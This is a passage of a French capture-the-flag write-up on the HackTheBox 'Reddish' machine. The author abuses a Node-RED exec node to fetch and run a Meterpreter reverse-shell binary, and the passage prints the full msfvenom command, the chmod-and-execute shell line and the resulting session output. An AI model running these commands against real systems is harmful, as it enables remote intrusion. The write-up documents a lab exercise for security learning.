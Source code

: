 ![HackTheBox Reddish CTF Node-RED exec node](https://github.com/devl00p/blog/raw/master/images/htb/reddish/reddish_exec.png)

Il télécharge un *Meterpreter* (généré via *msfvenom -p linux/x64/meterpreter\_reverse\_tcp LHOST=10.10.14.99 LPORT=7777 -f elf -o devloop.bin*) sur mon serveur web (il faut indiquer dans la node que l'on souhaite en sortie un buffer et non une chaîne de caractères UTF-8) et l'écrit à l'emplacement de notre choix.  

Ensuite j'appelle *exec* sur */bin/sh* avec les arguments *-c "chmod +x /tmp/devloop.bin; /tmp/devloop.bin &"*.  

On obtient alors notre session *Meterpreter* et on n'est qu'au début d'un looooog voyage :)  

```plain
meterpreter > ifconfig

Interface  1
============
Name         : lo
Hardware MAC : 00:00:00:00:00:00
MTU          : 65536
Flags        : UP,LOOPBACK
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0

Interface  9
============
Name         : eth0
Hardware MAC : 02:42:ac:12:00:02
MTU          : 1500
Flags        : UP,BROADCAST,MULTICAST
IPv4 Address : 172.18.0.2
IPv4 Netmask : 255.255.0.0

Interface 17
============
Name         : eth1
Hardware MAC : 02:42:ac:13:00:04
MTU          : 1500
Flags        : UP,BROADCAST,MULTICAST
IPv4 Address : 172.19.0.4
IPv4 Netmask : 255.255.0.0
```
